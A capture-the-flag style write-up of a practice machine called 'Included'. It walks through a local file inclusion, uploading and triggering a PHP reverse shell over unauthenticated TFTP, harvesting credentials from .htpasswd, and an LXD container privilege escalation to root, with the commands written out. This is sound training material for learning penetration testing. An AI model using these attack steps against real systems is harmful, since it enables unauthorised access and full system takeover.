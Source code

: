 # Included

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  PHP  
  Custom Applications  
  Protocols  
  Apache  
  TFTP  
  LXD  
  Reconnaissance  
  Local File Inclusion  
  Clear Text Credentials  
  Arbitrary File Upload  

#### Description
  Implement more complex enumeration techniques for finding vulnerabilities. 

#### **Initial Enumeration**
  80/tcp : http  : Apache httpd 2.4.29 ((Ubuntu))

  We can see from visiting the webpage on port 80, the website is possible vulnerable to local file inclusion. The link looks like this: 
  ``` bash
    http://{TARGET_IP}/?file=home.php
  ```
  We can test for this vulnerability by writing a curl command for file we know would be on the target machine. This can be protected against if a working directory is specified by the program. 

  ![local file inclusion curl output](./assets/lfi_curl_output.png)

#### **TFTP**
  *TFTP* or *Trivial File Transfer Protocol* allows basic file transfer function over *UDP* or *User Datagram Protocol* with no user authentication. Reading through /etc/passwd we see that a recent try reads as *tftp*.  

  To enumerate UDP ports the nmap command requires the <code>-sU</code> flag:
  ``` bash
    sudo nmap -sU {TARGET_IP}
  ```
  This scan requires sudo privileges and takes a bit more time. We find ports:  

  68/udp : dhcpc  
  69/udp : tftp  

  Since there is no tftp user authentication, we can connect to it and upload a shell script for access to the target. 

#### **Reverse Shell**
  The script can be uploaded using TFTP, we can start a listener on the port we specified in the reverse shell script. On the issue of where the file is uploaded, a Google search would tell us that the default file location for TFTP is */var/lib/tftpboot* and confirmed by a recent entry in /etc/passwd.

  ![tftp entry /etc/passwd](./assets/tftp_etcpasswd.png)

  To establish the reverse shell through netcat we can use curl:
  ``` bash
    curl 'http://{TARGET_IP}/?file=/var/lib/tftpboot/php-reverse-shell.php'
  ```

  Once the shell is established, we can stabilize the console using:
  ``` bash
    python3 -c 'import  pty;pty.spawn("/bin/bash")'
  ```

#### **Lateral Movement**
  The user account we aer logged into right now does not permissions to read some of the files. However, navigating to /home/ we see there is another user. One thing we can do is inspect /var/www/html/ for hidden files. Checking the directory with <code>ls -al</code> we see a couple files: <code>.htaccess</code> and <code>.htpasswd</code>. 

  ![htaccess htpasswd print console](./assets/htaccess_htpasswd_output.png)

#### **Privilege Escalation**
  Now that we have higher privileges, the next step would be to escalate further into root access. Checking the <code>id</code> for the user account we see that it is part of group <code>lxd</code>. 

  *LXD* is an API for dealing with LXC containers on Linux systems to perform tasks for any members of the lxd group. It does not match permission of the calling user. Meaning members can escalate privileges to root on the host OS. 

  We can use a tool called *distrobuilder* to create a tar.xz and rootfs.squashfs for uploading onto the target machine. After uploading, we import he images using lxd:
  ``` bash
    # import image using CLI tool
    lxc image import incus.tar.xz rootfs.squashfs --alias alpine

    # verify success by listing images
    lxc image list
  ```

  ![successful alpine image](./assets/successful_alpine_image.png)

  After, the image is up and running we need to set the <code>security.privileged</code> flag to true for the container to have root access. Then mount the root file system on the container in the <code>/mnt</code> folder.
  ``` bash
    lxc init alpine privesc -c security.privileged=true
    lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
  ```

  Next, we can start the container and root shell:
  ``` bash
    lxc start privesc
    lxc exec privesc /bin/sh
  ```
  
  Now we have root access to the system!